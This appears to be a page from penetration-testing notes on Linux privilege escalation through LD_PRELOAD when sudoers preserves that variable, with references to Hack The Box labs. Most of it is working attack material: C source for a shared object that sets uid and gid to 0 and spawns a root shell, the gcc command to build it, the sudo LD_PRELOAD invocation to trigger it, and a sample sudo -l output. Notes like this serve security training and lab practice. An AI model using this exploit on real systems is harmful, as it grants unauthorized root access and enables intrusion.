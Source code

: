 ## Shared Libraries

### LD\_PRELOAD & **LD\_LIBRARY\_PATH**

If `LD_PRELOAD` is explicitly defined in the sudoers file

```bash
Defaults        env_keep += LD_PRELOAD
```

Compile the following shared object using the C code below with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

Execute any binary with the LD\_PRELOAD to spawn a shell : `sudo LD_PRELOAD=<full_path_to_so_file> <program>`, e.g: `sudo LD_PRELOAD=/tmp/shell.so find`

#### Example:

{% embed url="https://lojique.gitbook.io/hack-the-box/v/photobomb/privilege-escalation" %}

#### Another Example

```bash
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

